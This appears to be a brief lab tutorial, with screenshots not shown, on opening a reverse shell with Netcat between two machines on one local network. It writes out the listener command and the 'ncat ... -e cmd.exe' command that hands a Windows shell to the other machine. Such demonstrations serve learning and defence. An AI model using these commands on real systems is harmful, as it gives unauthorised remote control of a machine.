




We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of a physical machine `A` using another physical machine `B` on the same local network.

To open a reverse shell, we need the IP address of physical machine `B` from which we will open the remote shell:

The address is `172.20.10.4`.

Now we open a listener on port `5555` of physical machine `B` using the command `ncat -nlvp 5555`:

From physical machine `A`, we run the command `ncat 172.20.10.4 5555 -e cmd.exe` to open a remote shell to physical machine `B`'s address:

From physical machine `B`, we can see that the connection was successful, and we can navigate the directories of physical machine `A`:

